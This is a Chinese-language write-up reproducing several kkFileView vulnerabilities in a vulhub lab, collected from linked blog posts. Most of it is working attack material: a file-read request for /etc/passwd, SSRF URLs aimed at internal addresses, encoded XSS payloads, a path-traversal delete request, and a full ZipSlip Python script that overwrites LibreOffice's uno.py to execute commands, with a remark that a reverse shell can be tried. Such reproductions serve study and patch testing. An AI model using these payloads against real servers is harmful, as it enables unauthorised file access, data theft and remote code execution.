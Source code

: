 参考wp：[https://www.cnblogs.com/xbbth/p/17446987.html](https://www.cnblogs.com/xbbth/p/17446987.html)

[https://blog.csdn.net/qq_61475980/article/details/140604251](https://blog.csdn.net/qq_61475980/article/details/140604251)

[https://www.cnblogs.com/backlion/p/17372724.html](https://www.cnblogs.com/backlion/p/17372724.html)

[https://github.com/Threekiii/Vulnerability-Wiki/blob/master/docs-base/docs/webapp/kkFileView-ZipSlip-%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md](https://github.com/Threekiii/Vulnerability-Wiki/blob/master/docs-base/docs/webapp/kkFileView-ZipSlip-%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md)



kkFileView 是使用 Spring Boot 搭建的文档在线预览解决方案，能够支持多种主流办公文档的在线预览，如 doc、docx、xls、xlsx、ppt、pptx、pdf、txt、zip、rar 等格式。此外，还可以预览图片、视频、音频等多种类型的文件。


使用vulhub靶场复现

# 任意文件读取漏洞

**漏洞影响**

**kkFileview <=3.6.0**

**漏洞证明**

漏洞接口:[https://filepreview.xxxx.com/getCorsFile?urlPath=file:/](https://filepreview.zhongan.io/getCorsFile?urlPath=file:/)

 http://xxx.com//getCorsFile?urlPath=file:///etc/passwd



# SSRF漏洞

**漏洞影响**

kkFileview =v4.1.0

**漏洞证明**

1、kkFileview的getCorsFile接口存在SSRF漏洞，并且可读取任意文件。

[https://filepreview.xxxxx/getCorsFile?urlPath=file:///](https://filepreview.xxxxx/getCorsFile?urlPath=file:///)

2、通过该接口调用内网服务，并且进行访问，实现SSRF。

[https://filepreview.xxxxxx.com/getCorsFile?urlPath=http://192.168.1.1/](https://filepreview.xxxxxx.com/getCorsFile?urlPath=http://192.168.1.1/)

可以进行base64编码

# XSS漏洞

**漏洞影响**

kkFileview =v4.1.0

**漏洞证明**

http://xxx.com/onlinePreview?url=%3Cimg%20src=x%20οnerrοr=alert(0)%3E



URL1：[http://xxx.com2/onlinePreview?url=aHR0cDovL3d3dy5iYWlkdS5jb20vdGVzdC50eHQiPjxpbWcgc3JjPTExMSBvbmVycm9yPWFsZXJ0KDEpPg%3D%3D](http://xxx.com/onlinePreview?url=aHR0cDovL3d3dy5iYWlkdS5jb20vdGVzdC50eHQiPjxpbWcgc3JjPTExMSBvbmVycm9yPWFsZXJ0KDEpPg%3D%3D)

经过base64加URL编码`http://www.baidu.com/test.txt"><img src=111 onerror=alert(1)>`




URL2： [http://xxx.com/picturesPreview?urls=aHR0cDovL3d3dy5iYWlkdS5jb20vdGVzdC50eHQiPjxpbWcgc3JjPTExMSBvbmVycm9yPWFsZXJ0KDEpPg%3D%3D](URL2: http://xxx.com/picturesPreview?urls=aHR0cDovL3d3dy5iYWlkdS5jb20vdGVzdC50eHQiPjxpbWcgc3JjPTExMSBvbmVycm9yPWFsZXJ0KDEpPg%3D%3D

poc同理

经过base64加URL编码`http://www.baidu.com/test.txt"><img src=111 onerror=alert(1)>`


URL3：/picturesPreview?urls=&currentUrl=PHN2Zy9vbmxvYWQ9YWxlcnQoMSk%2B

对`<svg/onload=alert(1)>`进行base64加URL编码

# 任意文件上传导致存储xss

**漏洞影响**

kkFileView=4.1.0

**漏洞证明**

# 任意文件删除

漏洞影响

kkFileview= v4.0.0

漏洞证明

/deleteFile?fileName=demo%2F..\xss.pdf

get请求此uri会删除\kkFileView-master\server\src\main\file目录中的xss.pdf（原本只能删除\kkFileView-master\server\src\main\file\demo目录下的文件)

# 任意文件上传导致远程执行漏洞（可以尝试反弹shell）

[https://github.com/Threekiii/Vulnerability-Wiki/blob/master/docs-base/docs/webapp/kkFileView-ZipSlip-%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md](https://github.com/Threekiii/Vulnerability-Wiki/blob/master/docs-base/docs/webapp/kkFileView-ZipSlip-%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md)

**漏洞影响**

4.2.0-4.4.0

**漏洞证明**

启动docker环境

```Python
docker-compose up -d
```


服务启动后，访问`http://your-ip:8012`即可查看到首页。
![image](https://github.com/user-attachments/assets/55e715f6-33a2-45cb-8ab3-1a32c279c936)


目标在使用 odt 转 pdf 时会调用系统的 Libreoffice，而该进程会调用库中的 `uno.py` 文件，因此可以覆盖 `uno.py` 文件的内容实现 RCE。

首先，修改 [poc.py](https://github.com/vulhub/vulhub/blob/master/kkfileview/4.3-zipslip-rce/poc.py)：

```Python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'vulhub'
        binary2 = b"import os\nos.system('touch /tmp/success')\n"
        zipFile = zipfile.ZipFile("test.zip", "a", zipfile.ZIP_DEFLATED)
        # info = zipfile.ZipInfo("test.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```
![image](https://github.com/user-attachments/assets/a09ed8ad-88c3-46d1-b6cc-b593fd9079e7)



执行 `poc.py`，生成 POC 文件，`test.zip` 将被写入当前目录。

```Python
python poc.py
```


然后，使用 kkFileView 服务上传`test.zip`：
![image](https://github.com/user-attachments/assets/0d64e2bd-2228-4470-b936-985dbc11c895)


点击`test.zip`的“预览”按钮，可以看到 zip 压缩包中的文件列表：


最后，上传任意一个 odt 文件，例如 [sample.odt](https://github.com/vulhub/vulhub/blob/master/kkfileview/4.3-zipslip-rce/sample.odt)，发起 Libreoffice 任务：

[sample.odt](https://flowus.cn/preview/839e1a62-b891-4dfc-97de-50575bba260e)
![image](https://github.com/user-attachments/assets/d53eb483-3dad-4c63-a5d7-f5158a753eac)


点击`sample.odt`的“预览”按钮，触发代码执行漏洞：
![image](https://github.com/user-attachments/assets/22774379-44cd-40c2-966d-b5ef9fb549e7)


可见，`touch /tmp/success`已经成功被执行：
![image](https://github.com/user-attachments/assets/4f895a9a-e97c-4c3c-947a-4662623f7677)

注意：生产环境禁止使用，会更改系统代码
![image](https://github.com/user-attachments/assets/ce32d3ad-b231-4167-9f11-f69e6d03c1f1)


